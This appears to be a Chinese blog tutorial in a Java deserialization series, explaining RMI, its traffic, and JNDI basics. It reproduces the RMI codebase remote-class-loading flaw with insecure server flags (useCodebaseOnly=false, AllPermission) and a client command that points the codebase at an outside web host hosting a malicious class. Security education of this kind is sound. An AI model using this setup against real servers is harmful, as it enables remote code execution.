



# Java反序列化漏洞系列-3

# [](#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%94%BB%E5%87%BB%E6%B6%89%E5%8F%8A%E5%88%B0%E7%9A%84%E7%9B%B8%E5%85%B3%E5%8D%8F%E8%AE%AE)反序列化攻击涉及到的相关协议

> RMI 和 JNDI 都是 Java 分布式中运用较多的技术，JRMP 远程消息交换协议，运行于 Java RMI 之下，是一种底层传输协议。

如果拿 Web 应用来举例子，那么 RMI 就像是 HTTP 协议，JNDI 就像是 Apache HTTP Server，JRMP 则相当于 TCP 协议。HTTP 向后端请求文件，后端中间件实际上不止 Apache 一种，还可以是 IIS、Tomcat 等，而底层都是基于 TCP 协议来传输数据的。

## [](#1-rmi)1 RMI

### [](#11-rmi-%E5%8E%9F%E7%90%86)1.1 RMI 原理

RMI 全称是 `Remote Method Invocation`，远程方法调用。其的⽬标和 RPC 类似的，是让某个 Java 虚拟机上的对象调用另一个 Java 虚拟机中对象上的方法。

整个过程有三个组织参与：Client、Registry(注册中心)、Server。


1.  RMI的传输是基于反序列化的。
2.  对于任何一个以对象为参数的 RMI 接口，构建对象，使服务器端将其按任何一个存在于服务端 classpath 中的可序列化类来反序列化恢复对象。

RMI 涉及到参数的传递和执行结果的返回。参数或者返回值可以是基本数据类型，当然也有可能是对象的引用。所以这些需要被传输的对象必须可以被序列化，这要求相应的类必须实现 java.io.Serializable 接口，并且客户端的 serialVersionUID 字段要与服务器端保持一致。

问题

-   什么是 Stub？

每个远程对象都包含一个代理对象 Stub，当运行在本地 Java 虚拟机上的程序调用运行在远程 Java 虚拟机上的对象方法时，它首先在本地创建该对象的代理对象 Stub，然后调用代理对象上匹配的方法。

Stub 对象负责调用参数和返回值的流化(Serialization)、打包解包，以及网络层的通讯过程。

-   什么是 Skeleton？

每一个远程对象同时也包含一个 Skeleton 对象，Skeleton 运行在远程对象所在的虚拟机上，接受来自 stub 对象的调用。

RMI 中的基本操作：

-   lookup
-   bind
-   unbind
-   list
-   rebind

### [](#12-%E6%A8%A1%E6%8B%9F-java-rmi-%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B)1.2 模拟 Java RMI 利用过程

#### [](#121-rmi-server)1.2.1 RMI Server

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>``` | ```java<br>package com.geekby.javarmi;<br><br>import java.rmi.Naming;<br>import java.rmi.Remote;<br>import java.rmi.RemoteException;<br>import java.rmi.registry.LocateRegistry;<br>import java.rmi.server.UnicastRemoteObject;<br><br>public class RMIServer {<br>    public interface IRemoteHelloWorld extends Remote {<br>        public String hello() throws RemoteException;<br>    }<br><br>    public class RemoteHelloWorld extends UnicastRemoteObject implements RMIServer.IRemoteHelloWorld {<br>        protected RemoteHelloWorld() throws RemoteException {<br>            super();<br>        }<br><br>        @Override<br>        public String hello() throws RemoteException {<br>            return "Hello World";<br>        }<br>    }<br><br>    private void start() throws Exception {<br>        RemoteHelloWorld h = new RemoteHelloWorld();<br>      // 创建并运行 RMI Registry<br>        LocateRegistry.createRegistry(1099);<br>      // 将 RemoteHelloWorld 对象绑定到 Hello 这个名字上<br>        Naming.rebind("rmi://127.0.0.1:1099/Hello", h);<br>    }<br><br>    public static void main(String[] args) throws Exception {<br>        new RMIServer().start();<br>    }<br>}<br>``` |

上面提到过，⼀个 RMI Server 分为三部分：

-   ⼀个继承了 `java.rmi.Remote` 的接口，其中定义要远程调⽤的函数，⽐如上面的 `hello()`
-   ⼀个实现了此接⼝的类
-   ⼀个主类，⽤来创建 Registry，并将上面的类实例化后绑定到一个地址，即 Server。

在上面的示例代码里，将 Registry 与 Server 合并到一起。

`Naming.bind` 的第一个参数是一个 URL，形如：`rmi://host:port/name` 。其中， host 和 port 就是 RMI Registry 的地址和端口，name 是远程对象的名字。

信息

如果 RMI Registry 在本地运行，那么 host 和 port 是可以省略的，此时 host 默认是 localhost，port 默认是 1099。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```java<br>Naming.bind("Hello", newRemoteHelloWorld());<br>``` |

#### [](#122-rmi-client)1.2.2 RMI Client

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```java<br>package com.geekby.javarmi;<br><br>import java.rmi.Naming;<br><br>public class RMIClient {<br>    public static void main(String[] args) throws Exception {<br>        RMIServer.IRemoteHelloWorld hello = (RMIServer.IRemoteHelloWorld) Naming.lookup("rmi://127.0.0.1:1099/Hello");<br>        String ret = hello.hello();<br>        System.out.println(ret);<br>    }<br>}<br>``` |

客户端使用 `Naming.lookup` 在 `Registry` 中寻找到名字是 Hello 的对象，后⾯的使⽤用就和在本地使用是一致的。

虽然执⾏远程⽅法的时候代码是在远程服务器上执行的，但客户端还是需要知道有哪些⽅法，这时候接口的重要性就体现了，这也是为什么我们前面要继承 Remote 并将需要调⽤的方法写在接⼝ IRemoteHelloWorld 里，因为客户端也需要⽤到这个接⼝。

通过 wireshark 抓包，观察通信过程：



整个过程进⾏了两次 TCP 握手，也就是实际建⽴了两次 TCP 连接。

第⼀次建立 TCP 连接是客户端连接服务端的 1099 端⼝，⼆者进行协商后，客户端向服务端发送了⼀个 `Call` 消息，服务端回复了一个 `ReturnData` 消息，然后客户端新建了⼀个 TCP 连接，连到远端的 51388 端口。




整个过程，⾸先客户端连接 Registry，并在其中寻找 Name 是 Hello 的对象，这个对应数据流中的 `Call` 消息。然后，Registry 返回一个序列化的数据，就是找到的 `Name=Hello` 的对象，对应数据流中的 `ReturnData` 消息。客户端反序列化该对象，发现该对象是⼀个远程对象，地址在 `IP:port` ，于是再与这个 socket 地址建⽴ TCP 连接。在新的连接中，才是真正的执行远程⽅法，也就是 `hello()`。

信息

RMI Registry 就像一个⽹关，其自身是不会执行远程方法的，但 RMI Server 可以在上⾯注册⼀个 Name 到对象的绑定关系。RMI Client 通过 Name 向 RMI Registry 查询，得到这个绑定关系，然后再连接 RMI Server。最后，远程方法实际上在 RMI Server 上调⽤。

### [](#13-%E6%94%BB%E5%87%BB%E9%9D%A2)1.3 攻击面

当攻击者可以访问目标 RMI Registry 的时候，会有哪些安全问题呢?

首先，RMI Registry 是一个远程对象管理的地方，可以理解为一个远程对象的“后台”。可以尝试直接访问“后台”功能，比如修改远程服务器上 Hello 对应的对象，但是，Java 对远程访问 RMI Registry 做了限制，只有来源地址是 localhost 的时候，才能调用 rebind、 bind、unbind 等方法。

不过，list 和 lookup 方法可以远程调用。



#### [](#131-rmi-%E5%88%A9%E7%94%A8-codebase-%E6%89%A7%E8%A1%8C%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81)1.3.1 RMI 利用 codebase 执行任意代码

曾经有段时间，Java 是可以运行在浏览器中的。在使用 Applet 的时候通常需要指定一个 codebase 属性，比如：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```html<br><applet code="HelloWorld.class" codebase="Applets" width="800" height="600"> </applet><br>``` |

除了Applet，RMI 中也存在远程加载的场景，也会涉及到 codebase。 codebase 是一个地址，告诉 Java 虚拟机该从哪个地方去搜索类。

如果指定 `codebase=http://geekby.site/` ，然后加载 `org.example.Example` 类，则 Java 虚拟机会下载这个文件 `http://geekby.site/org/example/Example.class` ，并作为 Example 类的字节码。

RMI 的流程中，客户端和服务端之间传递的是一些序列化后的对象，这些对象在反序列化时，就会去寻找类。如果某一端反序列化时发现一个对象，那么就会去自己的 CLASSPATH 下寻找相对应的类；如果在本地没有找到这个类，就会去远程加载 codebase 中的类。

如果 codebase 被控制，就可以加载恶意类。在 RMI 中，可以将 codebase 随着序列化数据一起传输的，服务器在接收到这个数据后就会去 CLASSPATH 和指定的 codebase 寻找类，由于 codebase 被控制导致任意命令执行漏洞。

官方通过如下方式解决了该安全问题：

-   安装并配置了 SecurityManager
-   Java 版本低于 7u21、6u45，或者设置了`java.rmi.server.useCodebaseOnly`

官方将 `java.rmi.server.useCodebaseOnly` 的默认值由 `false` 改为了 `true` 。在 `java.rmi.server.useCodebaseOnly` 配置为 `true` 的情况下，Java 虚拟机将只信任预先配置好的 codebase ，不再支持从 RMI 请求中获取。

通过创建 4 个文件，进行漏洞复现：

ICalc.java

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```java<br>import java.rmi.Remote;<br>import java.rmi.RemoteException;<br>import java.util.List;<br>public interface ICalc extends Remote {<br>    public Integer sum(List<Integer> params) throws RemoteException;<br>}<br>``` |

Calc.java

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```java<br>import java.rmi.RemoteException;<br>import java.util.List;<br>import java.rmi.server.UnicastRemoteObject;<br>public class Calc extends UnicastRemoteObject implements ICalc {<br>    public Calc() throws RemoteException {}<br><br>    public Integer sum(List<Integer> params) throws RemoteException {<br>        Integer sum = 0;<br>        for (Integer param : params) {<br>            sum += param;<br>        }<br>        return sum;<br>    }<br>}<br>``` |

RemoteRMIServer.java

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>``` | ```java<br>import java.rmi.Naming;<br>import java.rmi.registry.LocateRegistry;<br><br>public class RemoteRMIServer {<br>    private void start() throws Exception {<br>        if (System.getSecurityManager() == null) {<br>            System.out.println("setup SecurityManager");<br>            System.setSecurityManager(new SecurityManager());<br>        }<br>        Calc h = new Calc();<br>        LocateRegistry.createRegistry(1099);<br>        Naming.rebind("refObj", h);<br>    }<br><br>    public static void main(String[] args) throws Exception {<br>        new RemoteRMIServer().start();<br>    }<br>}<br>``` |

Client.policy

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```json<br>grant {<br>    permission java.security.AllPermission;<br>};<br>``` |

编译及运行：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>javac *.java<br>java -Djava.rmi.server.hostname=10.28.178.250 -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=client.policy RemoteRMIServer<br>``` |

RMIClient.java：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```java<br>import java.rmi.Naming;<br>import java.util.List;<br>import java.util.ArrayList;<br>import java.io.Serializable;<br>public class RMIClient implements Serializable {<br>    public class Payload extends ArrayList<Integer> {}<br>    public void lookup() throws Exception {<br>        ICalc r = (ICalc)<br>Naming.lookup("rmi://10.28.178.250:1099/refObj");<br>        List<Integer> li = new Payload();<br>        li.add(3);<br>        li.add(4);<br>        System.out.println(r.sum(li));<br>    }<br>    public static void main(String[] args) throws Exception {<br>        new RMIClient().lookup();<br>} }<br>``` |

这个 Client 需要在另一个位置运行，需要让 RMI Server 在本地 CLASSPATH 里找不到类，才会去加载 codebase 中的类，所以不能将 RMIClient.java 放在 RMI Server 所在的目录中。

运行 RMIClient：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://example.com/ RMIClient<br>``` |

只需要编译一个恶意类，将其 class 文件放置在 Web 服务器的 `/RMIClient$Payload.class` 即可。

## [](#2-jndi)2 JNDI

JNDI (Java Naming and Directory Interface) ，包括 Naming Service 和 Directory Service。JNDI 是 Java API，**允许客户端通过名称发现和查找数据、对象**。这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），公共对象请求代理体系结构（CORBA），轻型目录访问协议（LDAP）或域名服务（DNS）。

### [](#21-jndi-%E7%BB%84%E6%88%90)2.1 JNDI 组成

-   Nameing Service

命名服务，命名服务将命名名称和对象进行关联，提供通过名称找到对象的操作

-   Name

名称，要在命名系统中查找对象，需要提供对象的名称

-   Binding

绑定，一个名称和一个对象的关链称为一个绑定

-   Reference

引用，在一些命名服务系统中，系统并不是直接将对象存储在系统中，而是保持对象的引用

-   上下文

上下文，一个上下文是一系列名称和对象的绑定的集合

## [](#%E5%8F%82%E8%80%83)参考

[Java 中 RMI、JNDI、LDAP、JRMP、JMX、JMS那些事儿](https://paper.seebug.org/1091/)

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)
